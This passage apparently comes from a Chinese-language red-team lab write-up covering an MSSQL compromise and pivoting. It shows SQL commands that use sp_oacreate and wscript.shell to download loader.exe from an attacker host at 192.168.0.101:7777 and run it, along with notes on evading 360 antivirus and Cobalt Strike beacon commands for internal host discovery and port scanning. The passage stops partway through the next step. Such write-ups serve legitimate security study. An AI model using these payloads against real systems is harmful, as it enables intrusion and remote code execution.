 ```sql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Windows\Temp\sethc.exe -urlcache -split -f "http://192.168.0.101:7777/loader.exe" C:\Windows\Temp\loader.exe'
```

- xp_cmdshell 执行命令加载 shellcode（360依然拦截）

```sql
Declare @runshell INT Exec SP_OACreate 'wscript.shell',@runshell out Exec SP_OAMeTHOD @runshell,'run',null,'forfiles /c C:\Windows\Temp\loader.exe';
```

无法绕过，手动点击360允许运行，上线 CS 后依然被拦截命令执行，大概还是拦截的 mssql 的 xp_cmdshell 命令执行

后续的土豆提权也被 360卫士 拦截

# 第三台12server-web2

## 前置

先 cs 上线 12server-data1，免杀的方法用之前项目 8  里的方法

在 12server-data1 的 cs 里开代理，用于攻击机对于 12server-web2 的攻击

## 信息搜集

1、在 12server-data1 里看看网卡信息

```beacon
beacon> shell ipconfig
```

```
IPv4 地址 . . . . . . . . . . . . : 192.168.0.102
IPv4 地址 . . . . . . . . . . . . : 10.10.10.140
```

2、对 10.10.10.0/24 网段主机发现，发现 10.10.10.141 为目标主机

```beacon
beacon> portscan 10.10.10.0-10.10.10.255 1-1024,3389,5000-6000 arp 1024
```

```
(ARP) Target '10.10.10.141' is alive. 00-0C-29-C5-1F-04
```

3、对 10.10.10.141 进行端口扫描

是用了代理，但扫不到，肯能开启了 defender

```beacon
beacon> portscan 10.10.10.141 1-1024,3389,5000-6000 arp 1024
```

就看到 80 和5985 端口活着

4、查看 80 端口
